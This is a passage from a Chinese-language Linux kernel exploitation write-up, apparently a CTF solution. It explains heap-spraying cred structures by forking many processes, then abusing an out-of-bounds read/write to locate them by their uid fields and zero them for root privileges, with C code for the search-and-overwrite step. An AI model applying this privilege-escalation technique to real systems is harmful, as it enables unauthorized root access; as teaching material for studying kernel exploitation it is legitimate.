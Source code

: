                          * keys to */
        struct key __rcu *session_keyring; /* keyring inherited over fork */
        struct key    *process_keyring; /* keyring private to this process */
        struct key    *thread_keyring; /* keyring private to this thread */
        struct key    *request_key_auth; /* assumed request_key authority */
    #endif
    #ifdef CONFIG_SECURITY
        void        *security;    /* subjective LSM security */
    #endif
        struct user_struct *user;    /* real user ID subscription */
        struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
        struct group_info *group_info;    /* supplementary groups for euid/fsgid */
        struct rcu_head    rcu;        /* RCU deletion hook */
    };
    ```

    如何在内核中找到我们进程的`cred`结构是关键。

    ##### 堆喷

    由于每一个进程都有一个`cred`结构体，且该结构体是由堆分配的，因此如果在操作全局变量pool之前，fork大量的进程，就能够在堆上构造出大量的`cred`结构体，利用越界读搜索当前堆前部分的内存，找到cred结构体，修改`euid`和`uid`值，使得部分进程结构体被修改，提权到root权限。

    在[creds堆喷利用](https://www.anquanke.com/post/id/87225)这篇文章中提到了如何在内核地址空间找到cred位置，cred位于**堆基地址 + 一定偏移量**的位置，而我们能够越界读写也是基于堆地址的，因此，在pool变量维护的堆前的堆区一定存在大量的cred结构体。

    **搜索cred特征**

    `cred`结构体中，`uid`、`gid`、`suid`等8个字段的内容对于不同的用户权限值不同，通过`id`可以获取，在非特权用户中，默认都是1000，并且这些字段是`4`字节对齐的，因此我们只需要找到`uid`的位置，就可以重写这些字段为0，达到提权的目的。

    ```c
    #define MAX_HEAP_AREA 0x160000
    #define SEARCH_SIZE  0x10000
    
    
    
    	alloc_object(0, mem, 0x100);
    	read_object(0, mem, MAX_HEAP_AREA, -MAX_HEAP_AREA);
    	unsigned int* unit = (unsigned int*)mem;
    
    	puts("[*] Start to search for creds.");
    	for(i = 0; i < SEARCH_SIZE/4; i++)
    	{
    		if(unit[i] == 1000 & unit[i+1] == 1000 & unit[i+2] == 1000 & unit[i+3] == 1000 & unit[i+4] == 1000 &
    			unit[i+5] == 1000 & unit[i+6] == 1000 & unit[i+7] == 1000)
    		{
    
    			cred_offset = i * 32;						// offset from read kernel start
    			printf("[*] Find cred at offset 0x%lx\n", cred_offset);
    			for(j = 0; j < 8; j++)
    			{
    				// modify uid | euid .. = 0
    				unit[i+j] = 0;
    			}
    			break;
    		}
    	}
    